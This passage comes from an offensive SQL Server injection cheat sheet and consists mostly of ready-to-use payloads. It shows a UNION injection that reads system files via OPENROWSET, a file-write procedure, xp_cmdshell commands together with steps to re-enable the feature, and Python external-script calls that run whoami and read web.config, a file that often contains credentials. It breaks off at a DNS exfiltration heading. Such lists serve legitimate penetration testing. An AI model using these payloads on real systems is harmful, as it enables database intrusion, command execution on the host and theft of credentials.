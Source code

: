 **Permissions**: The `BULK` option requires the `ADMINISTER BULK OPERATIONS` or the `ADMINISTER DATABASE BULK OPERATIONS` permission.

```sql
OPENROWSET(BULK 'C:\path\to\file', SINGLE_CLOB)
```

Example:

```sql
-1 union select null,(select x from OpenRowset(BULK 'C:\Windows\win.ini',SINGLE_CLOB) R(x)),null,null
```

### MSSQL Write File

```sql
execute spWriteStringToFile 'contents', 'C:\path\to\', 'file'
```

## MSSQL Command Execution

### XP_CMDSHELL

```sql
EXEC xp_cmdshell "net user";
EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';
EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';
```

If you need to reactivate `xp_cmdshell` (disabled by default in SQL Server 2005)

```sql
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```

### Python Script

> Executed by a different user than the one using `xp_cmdshell` to execute commands

```powershell
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("getpass").getuser())'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
```

## MSSQL Out of Band

### MSSQL DNS exfiltration
